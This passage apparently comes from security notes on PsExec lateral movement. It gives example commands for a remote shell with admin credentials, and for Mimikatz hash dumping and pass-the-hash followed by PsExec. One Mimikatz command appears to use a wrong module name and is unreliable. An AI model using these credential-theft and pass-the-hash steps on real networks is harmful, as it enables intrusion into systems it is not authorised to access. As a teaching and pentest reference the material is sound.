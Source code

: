       ![psexec-netflow](/assets/psexec-netflow.png)  

    - Executes the program under a parent process of psexecsvc.exe. Parent process of psexecsvc.exe is `services.exe`  
      
      ![psexecsvc-image](/assets/2020-07-20-psexecsvc.png)                                                              

    - Upon completion of its task, the PsExecSVC Windows service will be stopped and the `PSEXESVC.exe` file will be deleted from `ADMIN$`.
  
### Usage Examples:
  - Semi interactive shell with admin credentials:  
    ```powershell
    psexec.exe /accepteula \\192.168.1.2 -u LAB\admin -p password cmd.exe`
    ```
  - Semi interactive shell with NTLM hashes.  
    By default, **PsExec does not pass the hash** by itself.  
    However we can use Windows Credential Editor or **Mimikatz** for pass-the-hash and then utilize psexec.
    ```powershell
    # Get ntlm hashes with mimikatz
    privilege::logonpasswords
    # Spawn a new cmd as a different user using Mimikatz:
     sekurlsa::pth /user:user1 /domain:WORKGROUP /ntlm:217e50203a5aba59cefa863c724bf61b
    # Psexec
    PsExec.exe /accepteula \\192.168.1.2 cmd.exe
    ```
